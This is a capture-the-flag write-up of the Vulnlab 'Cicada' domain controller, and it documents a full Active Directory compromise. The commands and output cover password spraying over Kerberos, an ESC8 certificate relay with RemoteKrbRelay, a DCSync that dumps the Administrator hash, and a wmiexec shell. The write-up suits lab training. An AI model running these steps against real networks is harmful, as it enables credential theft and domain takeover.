


| Machine Name | Difficulty | Date Started | Date Completed |
| ------------ | ---------- | ------------ | -------------- |
| Cicada       | Medium     | 22/12/2024   | 02/01/2024     |
*Vulnlab.com* 

---

**Learning Points:**

- Use **Thunar** with `sudo` when accessing mounts to resolve permission errors.  
- Request a **Kerberos ticket** using `getTGT` and set it in the environment to launch attacks from a Linux host.  
- Authenticate with **Kerberos tickets** using the `-k` option instead of passwords when working with **crackmapexec**.  
- Use **nxc** as an alternative to **crackmapexec**.  
- Enumerate **SMB** using **Kerberos authentication** with the `impacket-smbclient` tool. 
- Perform **Kerberos relay attacks** exploiting the **ESC8 vulnerability** when **NTLM authentication** is disabled.  
- Use **wmiexec** to obtain a shell by leveraging the **TGT** (Ticket Granting Ticket) without requiring a password.  

---

Attack Path:

1. **Enumerate open ports** using **nmap**.
2. **Enumerate NFS shares** and find the `/profiles` share accessible to everyone.
3. **Mount the NFS share** and access the file `vacation.png`.
4. **Use sudo** to copy the `marketing.png` file and view it to find the embedded password.
5. **Use crackmapexec** with the `-k` flag and include the FQDN to verify the credentials for the user `Rosie.Powell`.
6. **Use kerbrute** to perform the same attack and confirm successful login.
7. **Enumerate SMB shares** and use **impacket-smbclient** with the Kerberos ticket to connect to the SMB service.
8. **Identify the `CertEnroll` SMB share**, confirming the presence of **Active Directory Certificate Services (ADCS)**.
9. **Enumerate certificate templates** using **certipy** with the Kerberos ticket.
10. **Check machine account quota** using **nxc** and determine that 10 machines can be added to the domain.
11. **Add a machine account** by setting up a Windows VM, connecting it to VulnLab’s VPN, setting the domain controller’s IP as the DNS server, and joining the domain.
12. **Perform Kerberos relay** using [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) on ADCS web enrollment remotely.
13. **Use `gettgtpkinit.py`** to obtain a TGT using the exported base64 certificate.
14. **Export the ticket** and perform a **DCSync attack** with **secretsdump** to dump all the hashes from `ntds.dit`.
15. **Retrieve the administrator's TGT** and use **wmiexec** to gain a shell and obtain the root flag.

---

Activity Log:

- Ran **nmap** to enumerate open ports.
- Started enumerating NFS shares.
- Found a `/profiles` share accessible to everyone.
- Mounted the share and began enumerating its contents.
- Was only able to copy the `vacation.png` file and didn't find anything else.
- Attempted SID bruteforcing to enumerate usernames but failed.
- Based on a write-up, received a hint to look at the `marketing.png`, but when attempting to view it, we were denied permission.
- Reset the machine.
- Used **sudo** to copy the file and was successful in viewing the image.
- Discovered a password embedded in the image.
- Attempted a regular password spray attack using **crackmapexec**, but it failed with `STATUS_NOT_SUPPORTED`, indicating that NTLM authentication was disabled.
- Used **crackmapexec** with the `-k` flag and included the FQDN in the command. This confirmed that the credentials worked for the user `Rosie.Powell`.
- Used **kerbrute** to perform the same attack and was successful.
- Began enumerating SMB shares but could not enumerate them using the regular **smbclient**.
- Used `getTGT` to request a Kerberos ticket for the user `Rosie.Powell` and exported it to our **falcon ev** for further attacks.
- Successfully used **impacket-smbclient** with the Kerberos ticket to connect to the SMB service on the machine.
- Discovered the `CertEnroll` SMB share, indicating that the server was running **Active Directory Certificate Services (ADCS)**.
- Enumerated enabled and vulnerable certificate templates through **certipy** using the exported TGT.
- Found that it was possible to add a machine account if the quota allowed, which could be checked with **netexec** or **CrackMapExec**.
- Since **CrackMapExec** didn't work, used the updated **nxc** tool.
- Confirmed that the domain controller allowed adding up to 10 machines to the domain.
- Added a machine account by spinning up a Windows VM, connecting it to VulnLab's VPN, setting the domain controller's IP as the DNS server, and joining it to the domain.
- Configured the DNS IP to the domain controller.
- To join the machine to the domain, navigated to **Control Panel > System** and selected **Rename this PC (Advanced)**.
- Used [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) to perform a Kerberos relay on ADCS web enrollment remotely.
- Copied the base64 string to a file named `cert.p12` and attempted to authenticate via **PKINIT** from **Certipy**, but the authentication failed.
- Tried using **gettgtpkinit.py** and successfully obtained a TGT.
- Exported the resulting ticket and used **secretsdump** to perform a **DCSync** attack, dumping all the hashes from `ntds.dit`.
- Retrieved the administrator's TGT, then gained a shell through **wmiexec** and obtained the root flag.

---

### Enumeration

*Nmap default port scan*
```
PORT     STATE SERVICE
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
111/tcp  open  rpcbind
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2049/tcp open  nfs
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

*Nmap default port scan*
```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ nmap 10.10.88.7 -sC -sV -oA detailed
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-22 20:15 +0530
Nmap scan report for 10.10.88.7
Host is up (0.20s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-12-22 14:46:01Z)
111/tcp  open  rpcbind?
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
445/tcp  open  microsoft-ds?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
2049/tcp open  rpcbind
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2024-09-13T10:42:50
|_Not valid after:  2025-09-13T10:42:50
|_ssl-date: TLS randomness does not represent time
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Not valid before: 2024-09-12T15:21:57
|_Not valid after:  2025-03-14T15:21:57
5357/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 128.81 seconds

```

Started enumerating the available NFS shares for enumeration

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ showmount -e 10.10.88.7   
Export list for 10.10.88.7:
/profiles (everyone)
```

Mounted the `/profiles` share to Falcon.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Retro2]
└─$ sudo mount -t nfs -o vers=3,nolock 10.10.88.7:/profiles /mnt/new_back
```

Started enumerating the mounted share.

```
┌──(destiny㉿falcon)-[/mnt/new_back]
└─$ tree
.
├── Administrator
│   ├── Documents  [error opening dir]
│   └── vacation.png
├── Daniel.Marshall
├── Debra.Wright
├── Jane.Carter
├── Jordan.Francis
├── Joyce.Andrews
├── Katie.Ward
├── Megan.Simpson
├── Richard.Gibbons
├── Rosie.Powell
│   ├── Documents  [error opening dir]
│   └── marketing.png
└── Shirley.West

14 directories, 2 files
```

We didn't have permission to access the `marketing.png` and some other shares :

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ cp /mnt/new_back/Administrator/vacation.png .
 
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ cp /mnt/new_back/Rosie.Powell/marketing.png .
cp: cannot open '/mnt/new_back/Rosie.Powell/marketing.png' for reading: Permission denied
```

*Vacation.png* :


Tried Sid Bruteforcing to enumerate usernames but failed :

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ impacket-lookupsid anonymous@cicada.vl -no-pass
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Brute forcing SIDs at cicada.vl
[*] StringBinding ncacn_np:cicada.vl[\pipe\lsarpc]
[-] SMB SessionError: code: 0xc00000bb - STATUS_NOT_SUPPORTED - The request is not supported.
```

Looked at a writeup and got a hint to check the `marketing.png`, but when trying, didn't have permission to view it, so the machine was reset.


Used `sudo` to copy and successfully copied the image :P

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ sudo cp /mnt/new_back/Rosie.Powell/marketing.png .
```

We found the below image :


#### Password Spray using Kerberos Authentication

Tried to perform a password spray attack but encountered errors as "STATUS_NOT_SUPPORTED."

>_This shows `STATUS_NOT_SUPPORTED` which is the case because NTLM is not enabled on this domain. In order to get around this, we can authenticate with Kerberos instead (which needs the FQDN instead of the IP, so you will need to add it your hosts file or use the machines DNS server):_


Used CrackMapExec with the `-k` flag and `-d`, including the FQDN, and confirmed that the credentials worked for the user `Rosie.Powell`.


#### Password Spray using Kerberos Authentication - II

Used Kerbrute to perform the same attack and was successful.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ kerbrute passwordspray -d cicada.vl --dc 10.10.110.102 users.txt Cicada123
```


```
cicada.vl\Rosie.Powell:Cicada123
```

#### Enumerating SMB using Kerberos Authentication 

Was not able to use smbclient with the password due to the error `NT_STATUS_NOT_SUPPORTED`.


Requested a ticket using `getTGT` and exported it to continue enumerating from Falcon.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ impacket-getTGT cicada.vl/Rosie.Powell@DC-JPQ225    
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
Password:
[*] Saving ticket in Rosie.Powell@DC-JPQ225.ccache

┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Cicada]
└─$ export KRB5CCNAME=Rosie.Powell@DC-JPQ225.ccache 
```

Was able to enumerate SMB shares using `impacket-smbclient` with the TGT obtained and exported.

```
impacket-smbclient cicada.vl/Rosie.Powell@DC-JPQ225 -k -no-pass
```


---

### Performing Kerberos Relay with ESC8 on a Single Computer Without NTLM Authentication Enabled

Was able to see `CertEnroll` in the SMB shares, indicating that the server was also ADCS (Active Directory Certificate Services). Enumerated enabled/vulnerable certificate templates through `certipy` with the exported TGT.

```
certipy-ad find -u 'Rosie.Powell' -vulnerable -stdout -k -no-pass -target DC-JPQ225
```



The output shows that web enrollment is enabled which is found very common to be vulnerable as relaying NTLM authentication is possible to the web enrollment service by coercing HTTP authentication request for a certificate on behalf of domain controller **but here we only have only one server also NTLM authentication is disabled from what we saw and self relaying isn’t possible**

It was possible to add a machine account if the quota allowed, which could be checked with netexec or CrackMapExec.

CrackMapExec didn't work, so used the updated `nxc`.



```
nxc ldap DC-JPQ225 -u 'Rosie.Powell' -d cicada.vl -p Cicada123 -k -M maq
```


Was able to see that 10 machines could be added to the domain.

Added a machine account by first spinning up a Windows VM, connecting it to VulnLab’s VPN, adding the domain controller’s IP as the DNS server, and joining it to the domain.


Set the DNS IP to the domain controller.


To join this to a domain, went to `Control Panel`, `System`, and then selected `Rename this PC (Advanced)`.


To perform a Kerberos relay on ADCS web enrollment, a tool called [RemoteKrbRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) can be used. This tool is similar to KrbRelayUp, but it allows performing Kerberos relay remotely instead of doing it locally.

>_You probably know [KrbRelay](https://github.com/cube0x0/KrbRelay) and [KrbRelayUp](https://github.com/Dec0ne/KrbRelayUp), but what if I told you it could be done remotely? With RemoteKrbRelay this becomes a reality_

```
RemoteKrbRelay.exe -adcs -template DomainController -victim dc-jpq225.cicada.vl -target dc-jpq225.cicada.vl -clsid d99e6e74-fc88-11d0-b498-00a0c90312f3
```


Copied the base64 string to a file named `cert.p12` and tried authenticating via PKINIT from Certipy, but it failed.

```
certipy auth -pfx cert.p12 -dc-ip 10.10.104.125 -domain cicada.vl
export KRB5CCNAME=dc-jpq225.ccache
```


Tried using `gettgtpkinit.py` and was successfully able to obtain a TGT.

```
python3 gettgtpkinit.py -pfx-base64 $(cat cert.p12) -dc-ip 10.10.117.13 cicada.vl/'DC-JPQ225$' dc.ccache
```


Exported the resulting ticket to perform a DCSync attack using `secretsdump` and was able to dump all the hashes from `ntds.dit` and obtain the administrator's hash.

```
secretsdump.py -k -no-pass cicada.vl/dc-jpq225\$@cicada.vl@dc-jpq225.cicada.vl -just-dc
```


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:85a0da53871a9d56b6cd05deda3a5e87:::
```

Retrieved the TGT of the administrator, then gained a shell through `wmiexec` and obtained the root flag.

```
impacket-getTGT cicada.vl/Administrator@DC-JPQ225 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

```
export KRB5CCNAME=Administrator@DC-JPQ225.ccache
```

```
impacket-wmiexec cicada.vl/administrator@DC-JPQ225 -k -no-pass
```


----